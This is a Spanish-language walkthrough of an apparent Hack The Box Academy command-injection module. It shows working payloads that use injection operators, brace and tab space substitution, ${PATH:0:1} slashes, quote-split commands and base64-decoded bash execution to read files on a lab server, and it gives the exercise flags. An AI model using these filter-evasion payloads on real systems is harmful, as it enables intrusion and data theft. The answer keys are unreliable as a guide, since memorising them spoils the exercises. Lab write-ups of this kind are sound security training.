# Command Injections

## Exploitation

### Detection

1. **Try adding any of the injection operators after the ip in IP field. What did the error message say (in English)?**

```
127.0.0.1;
```

<p align="center"> 

</p>

answer: **Please match the requested format.**

### Injecting Commands 

1. **Review the HTML source code of the page to find where the front-end input validation is happening. On which line number is it?**

Para ver el código fuente le damos a la tecla **control+u**

<p align="center"> 

</p>

answer: **17**

### Other Injection Operators

1. **Try using the remaining three injection operators (new-line, &, |), and see how each works and how the output differs. Which of them only shows the output of the injected command?**

Intercepta la solicitud usando Burp Suite. Haz clic derecho y elige Enviar a repetidor.

<p align="center"> 

</p>

Luego, en el parámetro ip escribimos lo siguiente:

```
ip=127.0.0.1|whoami
```

<p align="center"> 

</p>

answer: **|**

## Filter Evasion

### Identifying Filters

1. **Try all other injection operators to see if any of them is not blacklisted. Which of (new-line, &, |) is not blacklisted by the web application**

En código ASCII salto de línea (new-line) es **%0a** 

En el parametro **ip** escribimos lo siguiente:

```
ip=127.0.0.1%0a
```

<p align="center"> 

</p>

El operador que no está en la lista negra es **new-line**

answer: **new-line**

### Bypassing Space Filters

1. **Use what you learned in this section to execute the command 'ls -la'. What is the size of the 'index.php' file?**

```
ip=127.0.0.1%0a{ls,-la}
```

**%0a** --> Salto de línea

Pongo las llaves porque **actúan como un sustituto del espacio en blanco**. Es una forma de escribir dos palabras juntas para que la web no se entere, pero dejando una "pista" (la coma y las llaves) para que Linux las separe con un espacio justo antes de ejecutar el comando.

<p align="center"> 

</p>

answer: **1613**

### Bypassing Other Blacklisted Characters

1. **Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?**

A continuación, llevaremos el siguiente comando

```
ip=127.0.0.1%0a{ls,${PATH:0:1}home}
```

**`${PATH:0:1}`** --> la terminal evalúa `${PATH:0:1}` y lo reemplaza mágicamente por una sola barra: `/`

- **`${PATH...}`**: Le dice a Linux "mira lo que hay dentro de la variable $PATH".
- **`:0`**: Indica que empiece a contar desde la **posición 0** (el primer carácter de todos).
- **`:1`**: Indica que solo tome **1 carácter** de longitud.

Por tanto, el sistema interpretaría el comando de la siguiente manera:

```
ls /home
```

<p align="center"> 

</p>

answer: **1nj3c70r**

### Bypassing Blacklisted Commands

1. **Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.**

```
ip=127.0.0.1%0a{c'a't,${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}
```

**El truco del comando: `c'a't`**

Muchos Firewalls (WAF) o filtros buscan específicamente la palabra `cat` para bloquearla.

En la terminal de Linux (Bash), si pones comillas simples en medio de una palabra, Linux las ignora a la hora de ejecutar el comando, pero el filtro de la web se confunde porque lee `c'a't` en lugar de `cat`.

- Para la web: Es una palabra extraña (`c'a't`). Deja pasar la petición.
- Para Linux: Elimina las comillas y ejecuta limpiamente el comando **`cat`**.

**El truco de las barras: `${PATH:0:1}`**

Como vimos antes, esto es un extractor de texto. Va a la variable `$PATH` (que empieza por `/usr...`), toma el carácter en la posición `0` y extrae solo `1`.

Cada vez que el comando pone `${PATH:0:1}`, Linux lo traduce por una barra **`/`**.

Si reemplazamos textualmente ese bloque por la barra, la ruta pasa de esto: `${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt`

A esto otro: `/home/1nj3c70r/flag.txt`

**En conclusión:**

El sistema interpretaría el comando de la siguiente manera:

```
cat /home/1nj3c70r/flag.txt
```

<p align="center"> 

</p>

answer: **HTB{b451c_f1l73r5_w0n7_570p_m3}**

### Advanced Command Obfuscation

1. **Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1**

La idea es que el siguiente comando:

```
find /usr/share/ | grep root | grep mysql | tail -n 1
```

Este en base64 para que el sistema pase desapercibido

```
echo "find /usr/share/ | grep root | grep mysql | tail -n 1" | base64 
```

<p align="center"> 

</p>

Ya tenemos el comando en base64 --> **ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEK**

El siguiente paso es conseguir engañar el sistema y hacer que realice el comando en base64:

```
ip=%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEK)
```

- **%0a** --> /n
- **bash <<<** --> Bash recibe el texto y ejecuta lo que venga después
- **$(..)** --> Ejecuta el `comando` y sustituye la expresión por su salida.
- **base64%09-d<<<** --> `%09` es un tabulador. 
	Por tanto, el comando **base64%09-d** pasa a **base64 -d**, junto con **<<<** descodificamos el texto.

Por tanto, el sistema interpretaría el comando de la siguiente manera:

```
bash <<< "find /usr/share/ | grep root | grep mysql | tail -n 1"
```

<p align="center"> 

</p>

answer: **/usr/share/mysql/debian_create_root_user.sql**

## Skills Assessment

### Skills Assessment

1. **What is the content of '/flag.txt'?**

En este ejercicio hay que buscar parámetros que tengan sentido lógico en el backend.

Por ejemplo, si ves un parámetro llamado `?to=`, el desarrollador probablemente programó el servidor para que haga algo como:

- Mover un archivo **a** una ruta (`mv archivo /ruta/to/`)

Entonces, teniendo esto en cuenta, investigando la pagina web

```
http://154.57.164.80:32290/
```

Credenciales --> **guest**:**guest**

<p align="center"> 

</p>

Cuando nos logueamos, nos aparecerá lo siguiente:

<p align="center"> 

</p>

Lo que acabo de señalar en los diferentes .txt hay que darle al botón. y nos aparecerá lo siguiente:

<p align="center"> 

</p>

Luego, usaremos burpsuite e interceptamos la pagina y lo mandamos al **repeater**:

<p align="center"> 

</p>

Recordáis lo que os explique al principio de la actividad, pues ya tenemos un punto de vulnerabilidad que podemos explotar mediante **command injection**. Tras varios intento, el único que me dió resultado fue el siguiente:

```
%0abash<<<$(base64%09-d<<<d2hvYW1pCg==)
```

Explicación del comando:

* `%0a` --> Salto de línea
* `bash <<<` --> Bash recibe el texto y ejecuta lo que venga después
- `$(..)` --> Ejecuta el `comando` y sustituye la expresión por su salida.
* `base64%09-d<<<d2hvYW1pCg==`:
	* `base64`
	* `%09` --> Tabulador
	* `-d <<<` --> Descodificamos y ejecutamos lo que venga despues 
```
echo "whoami" | base64  
```

<p align="center"> 

</p>

Luego en burpsuite, escribimos el comando preparado justo despues de `?to=`

<p align="center"> 

</p>

Luego, como la respuesta del **response** es de mucho contenido lo mejor sería buscar en el filtrado la posible respuesta que nos daría el comando que esta en base64, que es **www-data** Por tanto, en la línea 733 es donde se llevaría la respuesta del comando.

<p align="center"> 

</p>

Como vemos que hemos explotado la vulnerabilidad, ahora haremos el siguiente comando **ls -la /** en base64:

```
echo "ls -la /" | base64 
```

<p align="center"> 

</p>

```
%0abash<<<$(base64%09-d<<<bHMgLWxhIC8K)
```

<p align="center"> 

</p>

```
echo "cat /flag.txt" | base64
```

<p align="center"> 

</p>

```
%0abash<<<$(base64%09-d<<<Y2F0IC9mbGFnLnR4dAo=)
```

<p align="center"> 

</p>

answer: **HTB{c0mm4nd3r_1nj3c70r}**